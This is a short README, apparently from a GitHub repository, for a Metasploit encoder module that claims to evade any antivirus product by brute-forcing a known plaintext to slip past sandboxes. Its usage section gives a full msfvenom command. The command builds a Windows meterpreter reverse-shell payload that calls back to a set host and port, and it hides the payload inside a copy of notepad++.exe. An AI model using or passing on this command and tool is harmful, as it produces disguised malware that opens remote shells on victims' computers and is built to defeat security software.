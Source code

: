 # Metasploit-Encrypter

This tool permit to evade any antivirus products.
It use a brute force attack on a known plain text to bypass the sandbox.


# Installation
-----------

Copy msfencrypt.rb in metasploit/modules/encoders/x86/

# Usage
-----------

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=7777 -f raw -x notepad++.exe -f exe-only -e x86/msfencrypt -o output.exe

![alt tag](https://github.com/MrMugiwara/Metasploit-Encrypter/blob/master/msfencrypt.png)
